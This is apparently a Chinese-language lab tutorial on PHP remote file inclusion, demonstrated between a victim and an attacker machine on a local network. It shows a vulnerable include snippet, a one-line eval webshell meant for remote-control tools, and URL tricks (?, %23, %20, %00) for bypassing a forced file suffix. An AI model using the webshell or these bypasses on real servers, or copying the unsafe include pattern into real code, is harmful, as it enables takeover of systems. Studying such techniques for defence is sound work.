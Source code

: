 #### 远程包含

##### 声明：192.168.1.36为受害者电脑IP，192.168.1.41为攻击者电脑IP

远程包含漏洞是有函数进行限制，如果代码函数限制了远程包含，那么就只能是本地包含，而且其中的某些设置也是需要开启的。  
![](https://img2023.cnblogs.com/blog/2509712/202306/2509712-20230615152131414-1096999590.png)  
如图所示，需要是On才可以进行远程包含，我们为了方便测试，直接把192.168.1.36（受害者电脑）这个参数打开，先来看一下无限制的远程包含漏洞，

##### 受害者www目录下正好有如下代码

    <?php
     $file=$_GET['file'];
     include($file);
    ?>
    

这时，攻击者在phpstudy里面的WWW目录创建1.txt文件，然后写上phpinfo代码，然后用受害者IP去远程包含攻击者的1.txt文件（两台电脑在同一个局域网，都是基于phpstudy进行演示）  
![](https://img2023.cnblogs.com/blog/2509712/202306/2509712-20230615164106798-491614817.png)

如图所示，那么如果攻击者在他的1.txt文件写上一句话木马呢，然后用菜刀或者蚁剑去连，是否就可以达到一个远控的目的

##### 一句话木马

    <?php @eval($_POST[x])?>
    

![](https://img2023.cnblogs.com/blog/2509712/202306/2509712-20230615165131830-455072066.png)  
![](https://img2023.cnblogs.com/blog/2509712/202306/2509712-20230615165155317-1624568824.png)

如图所示，连接成功。

##### 有限制的远程包含漏洞

##### 受害者的电脑中写入如下代码

     <?php
      $file=$_GET['file'];
      include($file.".html");
     ?>
    

这样的话在我们连接的时候就会出现问题，因为这个file后面会强制加上.html  
![](https://img2023.cnblogs.com/blog/2509712/202306/2509712-20230615170311029-779502537.png)  
同样我们进行绕过，这种绕过方式和我们的本地包含漏洞有所不同，可以直接在url中1.txt后面直接加？、%23或者%20，长度截断在此处不适用，%00也可以。  
![](https://img2023.cnblogs.com/blog/2509712/202306/2509712-20230615171111552-657097724.png)  
如图所示，可以执行成功，因为1.txt里面是一句话木马，执行不显示，所以我又加了121212这些数字。  
以上就是远程包含漏洞的两种方式,远程包含漏洞对php版本有要求，需要5.3以下版本，远程包含漏洞我们其实可以理解为是本地包含漏洞开启了某些配置，所以都是差不多的。

远程包含漏洞还可以结合伪协议去进行利用（伪协议是一种特殊的URL协议，它不是真正的网络协议，而是被用于访问本地文件系统或执行特定的操作。），先来了解一下各种脚本语言支持的伪协议，因为文件包含漏洞的产生和脚本语言没有关系，所以他不止是发生在php脚本语言中，他也有可能在JAVA，curl脚本语言中产生  
以下就是各种脚本支持的协议情况  
![](https://img2023.cnblogs.com/blog/2509712/202306/2509712-20230615175940988-416556465.png)
